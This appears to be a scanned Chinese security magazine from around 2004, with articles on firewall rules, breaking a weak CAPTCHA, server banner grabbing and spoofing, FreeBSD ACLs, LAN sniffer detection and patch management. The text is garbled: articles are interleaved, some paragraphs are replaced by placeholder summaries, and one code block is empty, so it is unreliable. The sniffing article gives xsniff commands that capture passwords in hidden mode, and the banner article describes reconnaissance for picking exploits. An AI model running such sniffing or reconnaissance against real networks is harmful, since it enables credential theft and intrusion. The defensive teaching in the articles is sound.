> 防火墙规则一般来讲包括两种不同的方式，分别是 Allow 和 Block，也就是我们常说的放行和拦截。可以说任何防火墙都是在这两种数据通过方式中控制数据传输的，这也是防火墙的根本。

### 1. 配置防火墙让 QQ 可以登录

因为这里是作为网关使用的，所以下面我们以允许本机 QQ 访问网络为例，讲一下防火墙规则的配置过程。其他各类防火墙的配置也是同样的道理，没有太大的差距。希望大家可以触类旁通。基本规则如下：

```
协议：UDP
起始端口：4000~4005（以同时开放不超过 6 个 QQ 计）
服务端口：8000
数据流向：双向
```

先点选 Internet 网卡 Rules 选项卡，在空白区域右键点击 New 弹出新规则配置窗口，分别配置 General、Filter、Restriction、Actions 这 4 个标签页，可以根据下面 4 个图来配置，如图 9、图 10、图 11、图 12 所示。说明：General 选项卡需注意选择正确的协议，数据流向为 IN&OUT。Filter 选项卡很简单，注意那个 Remote Address Group 为我添加的 IP 组。


上班时间偷懒哦！Actions 主要是规则应用时是否在日志中记录，以及自动响应的程序应对策略。对于 QQ 没必要这么麻烦，默认即可。现在打开 QQ，已经能够登录了！

> 防火墙规则从上开始向下选择应用，建议选择某条规则后在 Rules 菜单中选 Move Rule Up 来提高规则优先级，在某些情况下这种选择非常关键。

### 2. 配置防火墙防止数据库被下载

Http Filters 是我最喜欢的功能，有了它再也不怕有人下载我的数据库了。其他的 IIS Method 命令行写入和 Unicode 之类的东西，都会被 Block 掉。下面我们来看它的详细配置，依次打开“主菜单→Filtering→Edit Http Filters”，逐项设置。

> 脚本小子：网络上有一些扫描器也叫 Http Filter，它可以对 C 类地址段进行扫描，20 秒内可对所有 HTTP 服务器进行嗅探。这里讲的不是这类扫描器，要区分开。


- 1. **General 选项卡**：主要为网站服务端口和对畸形 HTTP 请求的策略，包括非常规编码 URL 请求、高比特字符策略、超长 URL 请求策略等（多处建议使用默认策略）。
- 2. **Method 选项卡**：对 HTTP 请求方法过滤，常见如 GET、PUT、HEAD，建议默认。
- 3. **Extensions 选项卡**：对请求后缀名过滤是重点。可在 Denied Extensions 中加入危险后缀（如 `.mdb`）以防数据库下载。
- 4. **Filters 选项卡**：可针对常见扫描/Unicode 漏洞测试 URL 设置拦截规则，触发后可禁用来源 IP。


也可在 `Rules → IP Address Groups → Add` 中添加地址组，或选择 Any IP Address。Restriction 选项卡可设置规则应用时间（Limited Hours），用于限制员工仅在固定时间段上 QQ，避免上班时间偷懒。

> 脚本小子：针对当前网络攻击情况，脚本攻击与 SQL Injection 等都很常见。可将常见特殊字符或危险模式加入防护名单，请求一旦命中即可 Ban IP，这类设置往往会让攻击者知难而退。

## 周边设置

- 1. **Log（日志记录）**：可以查看每一个连接的源目的、协议、状态、应用规则，双击记录还可以查看每个包的具体内容（前提是你在规则里配置了 Log Packet）以及处理功能，如图 14 所示。


同时需要注意的是，要在“主菜单→View→Settings”的 Log Files 选项卡中设置适合的日志文件位置以及最大值，并设置好文件存取权限，这对于入侵检测是相当重要的一环，如图 15 所示。


- 2. **Ban List（被封 IP 列表）**：系统将自动通过策略动态添加/删除，也可以手动添加删除 IP（IP 段）并对特定 IP（IP 段）实施 Trapit 服务。默认封锁时间为一天。
- 3. **Trapit（密罐）**：虽然没有专用 Honey Pot 强大，但足够拖住有预谋的入侵者，争取更多抓捕时间。
- 4. **Port Scan（端口扫描）**：设置端口扫描策略（探针间隔、端口计数器、IP 封锁、是否禁止访问等），可按实际情况配置。
- 5. **SYN Flood（DDoS）**：通过连接并发数控制（SYN Cookie）进行防护，默认值可满足一般场景。
- 6. **防火墙登录**：可在“File→Security→Password Required”中设置密码，防止策略被更改或被关闭。

下面的是我在被 Vm-Server 的 Firewall Ban 并 Trapit 后 Telnet 80 和 66 时的防火墙记录，三张图分别为 Trapit、Ban List、Log 的截图（如图 16、图 17、图 18 所示），可以看出一些防火墙伪造数据的痕迹。

Deerfield.com 的这款 Visnetic Firewall 的确使安全防护工作简单了很多，但根据经验，如果与应用程序级防火墙配合使用，效果会更好；再结合程序审核策略和优秀杀毒软件，系统固若金汤并非遥不可及。

图 16：连接状态记录表（含 State、Source、Destination、Start Time、Last Attempt、Time Spent 等列）。

图 17：Ban List 表（含 Addresses、Expiry、Date Banfied、Attempts、Last Attempt、Reason 等列）。

图 18：日志记录表（多条 Blocked TCP/UDP packet from banned IP 记录及时间戳）。

## 漏洞攻击防范


| 项目 | 内容 |
|---|---|
| 适合读者 | 系统研究员、网络工程师、脚本程序员、数学爱好者、大型网站设计者、入侵狂 |
| 前置知识 | 初等数学、暴力破解基础 |
| 难度等级 | 高 |

**脚本小子：** 计算机和数学是结合非常紧密的东西……（本段为导语段落）

## 验证码能实现验证功能吗？

这篇文章是关于利用初等数学方法破解一些验证码无效的问题介绍……（灰底长段）

> 本文所讲的“验证码”是指在网络上确定身份、防止暴力破解、DoS 攻击的一种技术……（左侧边框说明框）

```
Key=Iw9999929999999; width=80; height=20; border=1
```

另外还有一个格式为 Hidden 的表项，里面是 Key 的值……（右栏解释段落）

在此郑重声明的是，作为作者的我不为这些东西负责……让我们进入正题！

## ◎ 简单应用

先说技术上实现起来很麻烦，但危害相对较小的一个应用……（左栏正文）

```

```

我们继续做实验，将上面的代码复制到一个新建的 HTML 文档中……（右栏正文续）


种子就是服务器指定的 Key 值……用户是从 PIC 生成到 Result。

## 漏洞攻击防范 / EXPLOIT ATTACK DEFENCE

> 脚本小子：这事其实是相当聪明的做法……但是他们还是聪明地用了这一种方法。

客观地说，有好多事情其实想法本身是很好的，不过在具体做的时候，却由于技术或者理解上的原因弄得很糟糕。空口无凭，让我们来具体分析一下，看看这个校友录的验证码到底强壮性如何。

首先是 Key、Key 和 Result 显然是一一对应的……这并不是一个正确的 Challenge。

第一种绕过的方法出来了，就是自己伪造经过确认的 Key 和 Result……

就算不用这种绕开的方法，还是可以从 Key 到 Result 的……让程序来判定图片到底是什么数字。

这种做法看起来不太可能，因为验证码的一个首要条件就是：人能够很容易地识别，但是计算机却不能……

有兴趣的话，你可以自己抓来看看，抛开背景图案上的黑点（背景噪音）……总共有多少种数字呢？从 0 到 9 一共 10 个数字，有两种字体再乘上二，看上去华丽的验证码不过是从 20 个不同的数字中随机选了 4 个而已。

不是还有背景噪音吗？确实，这些可爱的背景噪音们部分地挡住了我们的视线……

如果图片已经充分地处理过并且存放在一个简单的二维数组里面，而且我们清楚地知道那 20 个基本数字的形状，纯的匹配办法还是有价值的……

加入噪音以后，匹配的图案只是经验上能肯定，但不匹配的图案是能准确判定的，去伪之后，自然是存真……

有人可能还会抬杠，倘若你的数字是 9，刚好背景噪音都集中在了左下角，变成一个 8 怎么办？……理论上这类事情几率极低。

真的有别的条件吗？有！在 GIF 文件里面……来看一个例子（仅仅是片段）。

```
0100000000000000
0000000000000000
0000222222200000
```


## EXPLOIT ATTACK DEFENCE / 漏洞攻击防范


> 脚本小子：这里简要解释一下 GIF 文件以及 LZW 压缩算法和图像解码。原始图像与解压后数据之间并不是“逐图像像素值”一一对应，而是索引值对应到调色板颜色。通过分析索引可区分背景噪声与数字轮廓。

背景的索引是 0，噪音的索引是 1，而数字轮廓的索引是 2，它们是分开的。

很难理解某校友录工程师为何这样进行 GIF 编码，这基本是人为制造的缺陷。其结果是：解码后无需复杂背景去噪步骤，识别程序可以较稳定地得到结果。

综合分析后，识别流程可概括为：获取 GIF 图像 → 解码 → 去掉索引为 1 的背景噪声 → 分块 → 与标准样本比对 → 输出识别结果。

文中提到校友录验证码机制虽有小幅变化（例如结合 Session），但由于生成图像本身过于简单，依然可通过较常规的方法自动识别；样本稍作更新即可继续工作。

作者进一步推测其设计思路：随机生成 Key，再结合 Seed 经过函数变换生成验证码结果（Result），再叠加背景噪声并输出 GIF。关键弱点不在是否多一步映射，而在变换算法过于简单。

> 脚本小子：经验上 Key 的值变化不够充分，很多实现还会与主机/访问量等弱相关信息关联，导致预测空间进一步收窄。

OK，简单地说，这类问题在部分场景看似“危害不大”，但会被别有用心者放大并传播，长期看依旧是安全隐患。

灌灌水你当然不会觉得有多危险，但若场景是电信或银行就不同了。手机与银行卡常见 6 位数字口令，如果在线系统允许反复尝试且验证机制薄弱，暴力破解在可接受时间内就可能实现。

文中举例指出：某些验证码自动识别程序的保护强度极低，几乎是“除了不设验证码之外最弱”的级别。攻击者可固定密码、枚举卡号（手机号）与时间等维度进行猜解。

作者提到相关参考文章（如 HTTPS 客户端编程翻译文）与实践经验，强调“能做出识别工具”不代表应当用于暴力破解；并指出这类系统缺陷常被误用放大。

类似问题也出现在售卡、即时通讯等站点的验证码上。很多实现依赖简单比对算法，轻微变形仍可被初等方法识别。若给定足够训练样本，可构建更通用的识别程序。

最后作者给出看法：辅助验证码本应作为“最后确认步骤”，并不等同于密码保护本身。若将其错误替代为主要防暴力机制，容易产生漏洞且难在常规模型检测中自动发现。

文末呼吁应引入额外技术手段检测“夸大适用范围/误用”造成的安全错误，并以“期待 ing! B/D”作结。

## 战争峰·隐点燃

## 顶级从 Banner 开始

文/图：WJ

入侵的开始首先就是对目标的刺探。我们这里都用服务器做例子。如果我想对一个系统进行探测，一般有如下的几个方法：扫描器——最方便、实用、全面的懒人工具；手工——要求对系统了解稍微多点，对各种漏洞掌握要比较全面。其实扫描器和手工探测是同样的道理，都是模拟某种操作和目标系统交互信息，从系统返回的信息判断是否存在某种漏洞，所以我们放在一起讲述（注：本文以最常见的 Windows 系统为例）。

扫描器是现在网络上用得最多的一个安全工具。我家隔壁那个 8 岁的小朋友都常常在我上网的时候跑过来问：哥哥，你在用扫描器哇？简直让人哭笑不得，也由此可见扫描器的广泛。网上小菜鸟们所用的漏洞扫描器一般就是 X-Scan、流光、Retina、SSS 等，原理都差不多，大家都会，也没什么好讲的。我们讲讲手工，这个有趣点——至少那个毛头小孩不会问我：哥哥，你又在手工探测啊？

要入侵一个服务器，首先得搞清楚人家是什么 OS。要是操作系统都搞不清楚的话，一切都免谈。最常用的方法是通过查看对方 80 端口的 Banner 来确定版本：首先 Telnet 上目标的 80 端口，然后轻轻地 GET 一下，Banner 就乖乖地出来了，如图 1 所示。


图 1

看见了吧？IIS5，HTTP 协议，80% 是 Windows 2000 的服务器了！就这么简单。普通的扫描器判断 OS 一般也是用的同样的方法，还有可能是通过远程服务器的指纹进行判断。那你会说，我们的服务器怎么这么老实，还没严刑逼供就招了？嘿嘿，慢点，通过其他途径的探测也同样可以实现的，别让人家服务器委屈了。来看最近热火朝天的 Serv-U 又是如何的：直接在命令行下 FTP 上去，看看返回信息，如图 2 所示。


图 2

哇！又一个招供的 Serv-U FTP Server v5.0 for WinSock ready，这不是很明白地告诉我们用的是什么程序、什么版本了吗？Serv-U 的 N 多个溢出看来要发挥作用了。再来 Telnet 110 看看，一般的邮件服务都是用的这个端口，如图 3 所示。


图 3

哇！WebEasyMail 3.5.1 也！真老实，赶快去翻漏洞库……好了，就举这几个简单例子了，其他的什么 IMAIL、MS SQL Server 等服务，都可以用同样的方法探测；你知道某服务器的特定端口就行了（这里废话一句：对网络上常见程序端口的了解是每个学习安全的朋友的必备知识，积累得越多，到真正需要用到入侵上的时候，你也就越得心应手，比如独裁者 DDOS 攻击工具留的后门端口什么的……呵呵）。

拿到了这么多的信息，新手朋友可能会问：有什么用呢？你还没有黑到人家啊？我倒！典型的不知道 RAR 是什么东西的网民。我们获得了目标系统的信息，就可以更好地按照我们获得的信息去有针对性地发现它的漏洞，比如：探测到对方是 2000 系统，我们马上就应该想到 2000 系统可能存在那些漏洞，自己掌握了哪些漏洞的攻击方法，入侵这个服务器的可能性有多高？同样，如果发现是 Serv-U 做的 FTP，那 Serv-U 的一堆溢出漏洞就有可能派上用场了！这时候，你还会说得到的这些信息没用吗？

好了，上面讲的是入侵者对系统的探测方法，进而有可能让他发觉到系统的进一步信息，从而利用某种漏洞入侵服务器。作为这个系统的管理员，该如何来屏蔽或者说修改这些信息，让入侵者查不到真正的资料，找不着北呢？很简单，我们一起往下看。

Windows 下绝大部分服务都是可以修改 Banner 信息的，比如 Serv-U，我们可以这样修改它的返回信息：打开本地的 Serv-U 管理器，指向你的域，在“设置”选项的“消息”标签里有每次登录服务器的详细返回信息，如图 4 所示。我们需要做的，只是将里面的消息全部替换，是换成 “What did you want to do?” 还是换成 “Microsoft FTP Service (Version 5.0)” 就看个人的喜好了。

## ACL扩展FreeBSD访问控制策略

随着FreeBSD 5.0的普及，UFS2文件系统逐渐被人们接受。在FreeBSD 5.0众多特性当中，ACL可算是一个亮点。以前的UFS文件系统只能针对文件、目录做单一设置，而基于UFS2文件系统的ACL可以针对文件、目录做多项设置。虽然和Windows下的NTFS文件系统上的ACL如出一辙，但还是有很多不同的地方。下面谈谈我对FreeBSD下的ACL使用心得，希望对广大系统管理员朋友有所帮助。

### 什么是ACL？

- 1. FreeBSD文件系统

ACL是基于文件系统的。我们知道Windows支持FAT/FAT32/NTFS，Linux支持Ext2FS/Ext3FS等，FreeBSD使用FFS（BSD Fast File System）。很多人认为FFS就是UFS，但严格来说并不完全等同。FFS是FreeBSD、OpenBSD、NetBSD以及其他系统（如Mac OS X）所使用的典型文件系统，了解文件系统有助于后续正确配置ACL。

- 2. FreeBSD ACL

ACL（Access Control Lists，访问控制列表）是FreeBSD 5.0及后续版本加入的新特性，基于UFS2文件系统。它可以严格控制用户、组和其他用户的访问权限，并可针对文件和目录做多项设置；还可通过最大权限掩码覆盖实际授权。在介绍ACL之前，需要先理解基础权限设置。

### FreeBSD访问控制策略

在FreeBSD 5.0之前，设置文件和目录权限只有3部分：U（User）、G（Group）、O（Other）。使用chmod（Change Mode）命令可按“数字模式”和“符号模式”设置访问权限。

- 1. 数字模式


经过简单设置，可将原本服务的Banner信息替换为其他版本信息，用于迷惑入侵者、隐藏真实服务版本。该方法同样可扩展到系统其他网络服务。

这里介绍一个方便的工具包：Banner Edit Tool，包含Apache-Win32 Banner Edit、MS-FTP Banner Edit、IIS/PWS Banner Edit、MS-SMTP Banner Edit等工具。

Banner Edit 1.0是Windows下网络服务Banner编辑工具，可通过修改对应DLL文件实现Banner替换。以IIS为例，运行IIS-Banner-Edit.exe，在“New Banner”中输入目标信息并保存到文件，即可修改服务器显示信息。


同样，其他服务的Banner信息也可如此修改。目的在于迷惑入侵者，使其难以判断目标系统具体版本，从而降低其直接利用现有漏洞入侵服务器的成功率，达到漏洞防护目的。

使用chmod改变访问权限，其中一种方式是使用一个三位数的八进制数。三位数中的每位分别控制用户、组和其他用户的访问权限。

| 权限数字 | 含义 |
|---|---|
| 0 | 没有任何权限 |
| 1 | 执行权限（对目录来说是查找权限） |
| 2 | 写权限 |
| 4 | 读权限 |

这4位数字可以组合成三位权限数字，例如：

| 数字 | 含义 |
|---|---|
| 755 | 用户可读可写可执行，组和其他用户可读可执行 |
| 644 | 用户可读可写，组和其他用户可读 |
| 600 | 用户可读可写，组和其他用户无权限 |

```bash
# chmod 755 Test.sh
# chmod 600 /test
```

在三位数基础上还可以添加第四位（附加位）提供额外特性，由4个八进制数组成。

| 附加数字 | 含义 |
|---|---|
| 0 | 一般权限 |
| 1 | 粘滞位（目录） |
| 2 | 组ID（Setgid） |
| 4 | 用户ID（Setuid） |

```bash
# chmod 0755 Test.sh
# chmod 4600 /test
```

符号模式中常用`+`、`-`、`=`来增减或赋值权限，对应字符如下：

| 字符 | 含义 | 字符 | 含义 |
|---|---|---|---|
| r | 读（Read） | s | Setuid和Setgid位 |
| w | 写（Write） | u | 用户（User） |
| x | 执行 | g | 组（Group） |
| t | 粘滞位 | o | 其他用户（Other） |

使用`ls -al FileName`可以显示完整权限设置，包括所有权和访问权限。

```bash
# ls -al /root
drwxr-xr-- 3 root users ... test
-rwxr--r-- 1 root users ... Test.sh
```

权限字符串开头字母表示文件类型（如`d`为目录），后续`rwx`分别表示用户、组、其他用户的读写执行权限。

有读和访问目录权限，最后`r--`表示其他用户只有读权限；文件首位`-`表示普通文件。这也是区分目录和文件的常见方法。

以上是FreeBSD/UNIX/Linux系统的基本权限设置。掌握这些内容是使用ACL的基础。

## ACL扩展FreeBSD访问控制策略

- 1. 准备工作  
  1. 配置内核

首先检查内核配置文件，确认UFS扩展和ACL相关选项是否启用；若未启用则需要修改配置并重新编译内核。

```text
options UFS_EXTATTR
options UFS_EXTATTR_AUTOSTART
options UFS_ACL
```

如果内核已有这些选项则无需操作；否则添加后重新编译安装内核。

```bash
# cd /usr/src/sys/i386/conf
# cp KERNEL1 KERNEL2
# vi KERNEL2
# cd /usr/src
# make buildkernel KERNEL=KERNEL2
# make installkernel KERNEL=KERNEL2
```

完成后重启系统，接下来配置想使用ACL的文件系统。

- 2. 配置文件系统

使用`extattrctl`为文件系统初始化ACL属性。示例在`/usr`挂载点启用ACL。

```bash
# mkdir /usr/attribute /usr/attribute/system
# cd /usr/attribute/system
# extattrctl initattr -p /usr 388 posix1e.acl_access
# extattrctl initattr -p /usr 388 posix1e.acl_default
```

在两次命令都执行过之后，就可以重新启动系统或者重新挂载文件系统，以使刚才的设置生效。全部完成之后，就可以在`/usr`下使用ACL了，设置其他挂载点的方法同上。

## 2. 使用ACL

### （1）获取与ACL相关信息

获取ACL的相关信息，需要使用getfacl实用程序。它可以获取文件和目录中现有的ACL设置信息。假如现在创建一个`Test.txt`文件，缺省的权限设置为644，可以使用`getfacl Test.txt`获取ACL信息。

```bash
# getfacl Test.txt
# file: Test.txt
# owner: 0
# group: 0
user::rw-
group::r--
other::r--
```

回显的第一行是文件名，随后两行是文件所属的用户和组的UID和GID（在这里是root用户），最后三行是当前的权限设置。

### （2）在ACL中添加用户或组

设置ACL需要使用setfacl实用程序，例如接着为`Test.txt`赋予`User_1`用户读权限。

```bash
# setfacl -m u:User_1:r Test.txt
# getfacl Test.txt

user::rw-
user:User_1:r--
group::r--
other::r--
```

现在ACL列表中已经多了一个`User_1`用户，也就是说现在用户`User_1`可以读取这个文件的内容了，即使`User_1`用户没有基本的文件存取权限。

当然也可以同时赋予`User_1`用户各种权限，例如赋予`User_1`用户读、写权限。

```bash
# setfacl -m u:User_1:rw Test.txt
# getfacl Test.txt

user:User_1:rw-
```

用户`User_1`现在可以读、写这个文本文件了。如果要设置组权限，只需把`-m`参数后边的`u`修改为`g`，例如：

```bash
# setfacl -m g:users:rw Test.txt
# getfacl Test.txt

group:users:rw-
```

users用户组对`Test.txt`文件有读、写权限。

### （3）最大权限掩码

最大权限掩码（Maximum Permissions Mask）是控制ACL列表中的任何用户和组可以使用的最大权限。最大权限掩码仅仅对那些能够访问ACL列表中文件和目录的用户和组有效，它并不影响所有者拥有的基本权限、用户组拥有的权限和其他用户的基本权限。

现在我们为`Test.txt`赋予一个最大权限掩码。

```bash
# setfacl -m m:r Test.txt
# getfacl Test.txt

user:User_1:rw-
mask::r--
other::r--
```

这里需要注意一下，虽然`User_1`用户有读、写权限，但由于最大权限掩码只有读权限，所以`User_1`用户的最大权限也是读。如果现在继续对`User_1`用户设置ACL，那最大权限掩码也会随之变动，可以使用`-n`参数禁止掩码更新，例如：

```bash
# setfacl -n -m u:User_1:rwx Test.txt
# getfacl Test.txt

user:User_1:rwx
mask::r--
other::r--
```

如果不使用`-n`参数，那Mask就会变为`mask::rwx`，这里需要多加注意，不要因为掩码设置问题造成权限混乱。

如果系统上的用户和组非常多，一个一个设置太麻烦了，幸好可以在同一个命令行中加入多个ACL规则，只需注意用逗号分隔这些ACL规则。

```bash
# setfacl -n -m u:User_1:r,u:User_2:rw,g:users:r Test.txt
```

这个命令赋予了`User_1`用户读权限、`User_2`用户读写权限和`users`组的读权限，并且使用了`-n`参数禁止了掩码更新。

### （4）在ACL中拒绝／删除用户或组

使用ACL可以拒绝某个用户和组的访问权限，也可以直接删除某个用户或组的访问权限。

```bash
# setfacl -m u:User_1:--- Test.txt
# getfacl Test.txt

user:User_1:---
```

上边是拒绝`User_1`用户的访问权限，即使`User_1`属于该文件组的成员，同样会遭到拒绝。ACL可以否决基本文件访问权限，即使基本文件访问权限允许该用户访问这个文件。可以说ACL是权限当中级别最高的。

如果打算删除ACL规则，就需要使用`-x`参数。

```bash
# setfacl -x u:User_1 Test.txt
```

如果打算删除所有的ACL规则，就需要使用`-b`参数。

```bash
# setfacl -b Test.txt
```

使用好ACL可以很好地控制存取权限。上边我只是举了几个例子，要想发挥ACL的威力，还需要大家在实践中慢慢摸索。另外，对于目录的设置和文件是一样的，限于篇幅就不再详述了。getfacl和setfacl的man手册页内容都很全面，英文好的朋友可以看看。如果对文章有任何意见，可以来我的网站讨论。

脚本小子：混杂模式下的监听一直是网络中不算漏洞的漏洞，因为很多人认为这是网络协议的固有缺陷，是无法通过软件途径去解决的……既然这样的监听是基于混杂模式下的，那我们从漏洞原理上去分析，一定能找到它的防范方法的，不信？请看此文！

| 项目 | 内容 |
|---|---|
| 适合读者 | 网络管理员 |
| 前置知识 | 局域网内数据传输基本原理 |
| 难度等级 | 中 |

## 防范局域网内监听


## 奇妙招

文/图 squall

相信很多朋友都在各地的网吧或学校的LAN里嗅探过别人的密码……所以就这种情况，我想谈谈如何来防范，避免局域网内监听的发生。

先让我们初步了解一下什么是监听，它是如何进行工作的。监听又称嗅探，指在局域网内的一台主机、网关上放入监听程序，从而可以监听出网络的状态、数据流动情况以及传输数据信息……因此，只要具有初步的TCP/IP知识的人利用嗅探程序获取用户的各种信息并不是一件很困难的事。

MAC地址。大家也许会发愁了，因为修改MAC地址需要手工修改注册表来实现，步骤很繁琐。在这里，我给大家推荐一个修改MAC地址的工具——MacModify，下面我来介绍一下该程序的用法。

- 1. `smac -listp`：列出所有网卡号对应的IP地址
- 2. `smac -listmac`：列出系统所有网卡的MAC地址
- 3. `smac -modifymac 网卡号 新的MAC地址`：修改某个网卡的MAC地址

下面我们要更改IP地址192.168.0.10，它对应的MAC地址是A0-01-02-03-27-63，要将它改为A0-01-02-03-27-64，如图1所示。


```text
LAN监听示意图（ASCII框图）：
- LAN内的主机C ↔ LAN内的主机A
- 中间节点：Sniffer
```

监听起到了中间人的作用……在一台负载繁忙的计算机中进行监听，管理员是很容易发现的……我们还须进一步作出判断。首先，把怀疑被安装了监听程序的计算机，用另一台主机去Ping（记住：一定要事先把主机的MAC地址修改一下）……

然后，我们重新启动计算机，重启之后，MAC地址就更改过来了，如图2所示。


到此MAC地址修改完毕，下面我们要做的是Ping那台怀疑被监听的主机了。

在正常条件下，没有被安装监听程序的计算机是不能Ping通的，因为在同一个网段内的网络寻址不是依靠IP而是MAC地址（物理地址）。当你用修改后的MAC地址主机去Ping另一台没有安装监听程序的主机，它首先广播一个ARP请求数据包。该数据包包含源主机IP地址和MAC地址以及目标IP地址，这时网络中的每台主机都可以接收到这个ARP请求数据包，而只有目标主机会处理这个ARP数据包并作出响应，将目标主机的物理地址直接发送给源主机。而我们之前已把未安装监听主机的MAC地址改掉了，故在交换机对应的MAC地址已经不存在了，所以才会产生不能Ping通（双方无法互相通信）这种状况。

到这里，也许有些新手感到有些晕了，没关系，我用一个例子说明一下，你就可能明白了：比如我们把教室比作局域网，教室里面的学生比作各台计算机，老师在叫A君回答问题时，教室里面的学生全部都听到了老师的问题，但只有A君才会响应老师；同样如果A君因为某事没有来上课，那老师再叫A君时，A君当然不会响应老师。通过这个鲜明的例子，相信大家都明白了。

那么我们再来谈谈Ping被安装监听程序的计算机，当用正确的IP地址和错误的MAC地址去Ping，运行监听程序的计算机就会有响应（能够Ping通），这是因为正常的主机不接受错误的物理地址，处于监听状态的主机却可以接收该数据包。通过该方法，你就可以顺利找到被安装监听程序的计算机。下面我通过一个典型的例子，给大家实践讲解一下如何防止被监听（Sniffer）。

在学校、企业内部网络里，FTP是最为常用的一项服务，但它在数据传输过程中是以明文方式出现的，“黑客”只要在一台登录该FTP服务器的机子上安装Sniffer软件，他就在你登录的时候把密码获取到。目前Windows最常用的是安全焦点的glacier（冰河作者）开发的xsniff，它的特点是体积小、操作简单，可捕获局域网内FTP/SMTP/POP3/HTTP协议密码。

```text
TIPS: xsniff <选项>

- tcp：输出TCP数据报
- udp：输出UDP数据报
- icmp：输出ICMP数据报
- pass：过滤密码信息
- hide：后台运行
- host：解析主机名
- addr <IP地址>：过滤IP地址
- port <端口>：过滤端口
- log <文件名>：将输出保存到文件
- asc：以ASCII形式输出
- hex：以16进制形式输出

示例：
- xsniff.exe -pass -hide -log pass.log
- xsniff.exe -tcp -udp -asc -addr 192.168.1.1
```

由于条件限制，我是用虚拟主机完成该实验的，如图3所示。

这时我已经安装了xsniff，看，密码就乖乖地跑进了我们的手中，如图4所示。


大家可以从图中看到，我登录的用户名是squall，密码为123456。

上面是网络监听的大致方法。防止网络监听我们可以采用两种方法。第一种方法是设计安全的网络拓扑结构图，在交换机上进行划分VLAN，这种技术通常被称为分段技术。它将网络上的节点按工作性质与需求划分成若干个“逻辑工作组”，一个逻辑工作组就组成了一个虚拟网络。这样，不在同一VLAN中的主机是不能互相通信的（除非使用路由器）。如果某人在VLAN中放置了xsniff，那他只能得到该网段内的信息，从而减少对网络安全性的影响。下面，我用一张拓扑图来说明一下，如图5所示。


从图中可以看出，我已经划分了两个VLAN。假如A君在VLAN3中安装了监听程序，那么A君就只能得到VLAN3中的信息，VLAN4是不可以的。为了方便大家理解，我做了一个交换机2950划分VLAN的动画教程放在光盘中，通过此动画，大家就更好地理解了。这里为了节省笔墨，我就不详细说明了。

第二种方法是采用加密技术，本人推荐这种方法。第一种方法相比起来复杂许多，但可以有效地防止网络监听攻击。

PGP（Pretty Good Privacy）是一个软件加密程序，用户可以使用它在不安全的通信链路上创建安全的消息和通信，例如电子邮件和网络新闻。PGP使用各种形式的加密方法，它用一种简单的包装式组合消息以提供简单、高效的安全机制，使得消息通过Internet或者其他网络上传输时更安全。

安全地传送。

在安装完以后，我们只要设置如下选项，就可以实现对数据的加密（注：双方必须都安装 PGP 软件），我们把记录的日志全部加上，然后配置 VPN。如图 6 所示。

然后我们到另一台主机安装 PGP 软件，步骤同上。两台主机全部配置后，我们就可以放心进行通信了。有兴趣的朋友可以测试，这样的网络环境下，嗅探是完全没用的。

通过以上的方法，局域网内的监听就可以很好地被杜绝了。如果你的网络环境下经常受到监听这种攻击方式的话，不妨使用上面的方法去尝试，相信一定会收到很好的效果。


| 适合读者 | 网络管理员、个人电脑使用者 |
|---|---|
| 前置知识 | Windows 基本操作 |
| 难度等级 | 低 |

## 脚本小子

最近由于冲击波、震荡波等病毒及其变种的肆意横行，不少企业内部网络深受其害。这些病毒专门攻击系统的漏洞，造成了大面积的网络被迫关闭，严重影响了正常的工作。“亡羊补牢，为时未晚”，眼下，越来越多的用户已经开始认识到安全补丁管理的重要性，但是应该从何入手、管理哪些方面，这是让许多用户挠头的事情。本文将结合一些优秀的补丁管理工具，让你循序渐进地了解安全补丁管理的详细内容。


## 补丁管理一点通

文/图 风之扬

管理补丁之前，我们首先来了解一下，到底什么是 Hotfix，什么是 SP，它们之间有什么联系和区别。

### 1. Hotfix

Hotfix 是针对某一个具体的系统漏洞或安全问题而发布的、专门解决该漏洞或安全问题的小程序，通常称为修补程序。微软公司会及时地将软件产品中发现的重大问题以安全公告的形式公布于众，这些公告都有一个唯一的编号，即 MS-***，如 MS04-011，其中 MS 是微软的英文缩写，04 代表 2004 年，011 代表该安全公告的编号。同时还会给出一个如 Q 或 KB（如 KB823980）的编号，这个编号是微软知识库中的一个编号。通过该编号可以在微软知识库中查找到有关该问题的技术文章和相应解决方案。

以补丁“Windows XP-KB823980-x86-CHS32λ.exe”为例说明：

- Windows XP——产品名称；
- KB823980——知识库编号；
- x86——处理器平台标识；
- CHS32λ.exe——语言版本/文件标识。

说明该补丁应用于中文版的 Windows 操作系统。可能出现的选项有 CHS、ENU 和 INTL，分别应用于中文版、英文版和多语言版 Windows 操作系统中；32 表示用于 32 位处理器平台；λ 表明该补丁是测试版。

> α、β、λ 常用来表示软件测试过程中的 3 个阶段：α 阶段一般仅供内部测试；β 阶段已消除大部分缺陷但可能仍存在问题，提供给特定用户测试；λ 阶段产品较成熟，仅做进一步优化后可正式发布。因此正式版补丁名通常不会带 λ。

### 2. SP

SP 是补丁包的缩写。对于一般用户来说，下载安装各类 Hotfix 较繁琐，因此微软发布 SP 补丁包。SP 补丁包包含发布日前的所有 Hotfix，且可叠加（例如 SP2 包含 SP1 内容，SP3 包含 SP2 内容）。用户通常安装最新 SP 即可。

如果用户要了解系统安装了哪些补丁，可在“控制面板”的“添加/删除程序”中查看“Windows XXXX 修补程序”类条目；或者打开注册表编辑器查找相关分支。

```registry
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Hotfix]
```

观察 Hotfix 下的子键即可了解系统安装了哪些补丁。

另外，用户进行修补之前，最好对补丁进行测试或者查看补丁的相关说明，如果安装失败的话，恢复起来会比较容易。

> Office 系列的产品必须预先安装所属的 SP 补丁包，不同版本请查询对应 SP。


图1

## MS补丁跟踪程序：Excel电子数据表

跟踪、管理自己所安装的 Microsoft 补丁有很多好处。首先，Microsoft 每年发布大量补丁、维护包、安全更新资料以及常用补丁程序。对于网络管理员来说，需要清楚补丁安装情况，以便在漏洞或入侵事件频发时判断哪些漏洞已被修补。

从企业管理角度看，若负责补丁管理的人员变动，补丁记录能够反映安装了哪些补丁、何时安装，从而更轻松地管理发布的补丁。

数据表下载地址：http://techrepublic.com.com/5129-6249-10219703.html 。下载后可打开数据表。该 Microsoft 补丁跟踪 Excel 电子数据表由 Microsoft Excel 2000 编制，可用 Excel 2000 或更高版本编辑。


图2

### 1. 数据表定制说明

下载电子数据表后，可以根据实际情况进行定制，下表是其中的一些重要选项。

## 补丁管理工具

随着越来越多安全漏洞被披露，补丁数量也随之剧增。面对海量补丁，手工打补丁并不现实。自动管理方案应包括升级数据库、补丁信息等能力。

| 字段 | 说明 |
|---|---|
| 安全补丁号 | Microsoft 列出每一个安全补丁的名称，如 MS04-011。 |
